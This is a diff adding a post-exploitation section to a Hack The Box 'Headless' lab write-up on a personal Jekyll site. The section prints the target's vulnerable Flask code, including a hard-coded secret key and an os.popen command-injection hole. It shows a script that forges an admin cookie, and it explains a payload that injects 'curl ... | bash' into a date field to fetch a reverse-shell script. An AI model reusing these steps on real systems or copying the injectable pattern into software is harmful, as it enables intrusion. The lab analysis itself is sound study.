

Before and after one commit to Jean2208/MyWebsite, a Jekyll site: the page built from _posts/2024-08-05-headless-htb.md, in a window 1280 px wide and 1400 px high, scrolled down 13034 px. Shown: the whole window, without its empty margins (268-1011 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 13664 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
docs: add post explotation to headless article

```diff
--- a/_posts/2024-08-05-headless-htb.md
+++ b/_posts/2024-08-05-headless-htb.md
@@ -335,3 +335,97 @@
 </div>
 
 We get the shell and the root flag.
+
+<h4>Post explotation</h4>
+
+It's always important to not only know how to exploit applications, but to also understand why and where they are vulnerable to provide better security.
+
+If we list the home directory of the vulnerable machine we find the `app.py` file that's responsible for launching the vulnerable website on port 5000.
+
+Let's inspect the vulnerable sections of this code from top to bottom. I added some comments to make it more clear.
+
+<div class="article-code">
+{% highlight python %}
+from flask import Flask, render_template, request, make_response, abort, send_file
+from itsdangerous import URLSafeSerializer
+import os
+import random
+
+app = Flask(__name__, template_folder=".")
+
+
+# Set a bytes object to the secret key attribute of the app instance
+app.secret_key = b'PcBE2u6tBomJmDMwUbRzO18I07A'
+# Serialize the data with the secret key
+serializer = URLSafeSerializer(app.secret_key)
+
+
+@app.route('/')
+def index():
+    # Get the Remote_Addr header from the request
+    client_ip = request.remote_addr
+    # Check if the request comes from localhost, if it's grant them admin cookie.
+    # Otherwise give them user cookie.
+    is_admin = True if client_ip in ['127.0.0.1', '::1'] else False
+    token = "admin" if is_admin else "user"
+    # Serialize "admin" or "user" with the secret key.
+    serialized_value = serializer.dumps(token)
+
+    # Make the reponse and assign a value to the 'is_admin' cookie.
+    response = make_response(render_template('index.html', is_admin=token))
+    response.set_cookie('is_admin', serialized_value, httponly=False)
+
+    return response
+{% endhighlight %}
+</div>
+
+From this block we can see where the cookies are coming from and how they are being generated. We can add some code to print both the user and admin cookies.
+
+<div class="article-code">
+{% highlight python %}
+# Set a bytes object to the secret key attribute of the app instance
+app.secret_key = b'PcBE2u6tBomJmDMwUbRzO18I07A'
+# Serialize the data with a secret key
+serializer = URLSafeSerializer(app.secret_key)
+
+serialized_value = serializer.dumps("user")
+print("Serialized User Cookie:", serialized_value)
+
+serialized_value = serializer.dumps("admin")
+print("Serialized Admin Cookie:", serialized_value)
+{% endhighlight %}
+</div>
+
+<div class="article-code">
+{% highlight sh %}
+jeanp@~$ python app.py
+Serialized User Cookie: InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
+Serialized Admin Cookie: ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
+{% endhighlight %}
+</div>
+
+Let's now inspect the /dashboard route code.
+
+<div class="article-code">
+{% highlight python %}
+@app.route('/dashboard', methods=['GET', 'POST'])
+def admin():
+    # If the cookie in the request is the user cookie abort with Unauthorized 401
+    if serializer.loads(request.cookies.get('is_admin')) == "user":
+        return abort(401)
+
+    # Variable where the output of the command will be stored.
+    script_output = ""
+
+    if request.method == 'POST':
+        # Get the date from the user's input
+        date = request.form.get('date')
+        if date:
+            # VULNERABLE CODE
+            script_output = os.popen(f'bash report.sh {date}').read()
+
+    return render_template('dashboard.html', script_output=script_output)
+{% endhighlight %}
+</div>
+
+`os.popen(f'bash report.sh {date}').read()`. It's not a good idea to pass input to a shell without sanitizing it first. It makes sense now why passing `date=2023-09-15;curl http://10.10.14.142:8000/script.sh | bash` in the payload works to get a reverse shell going. This payload translates to `bash report.sh 2023-09-15;curl http://10.10.14.142:8000/script.sh | bash`.
```
Also changed, not shown: other parts of _posts/2024-08-05-headless-htb.md (+1 -1 lines).
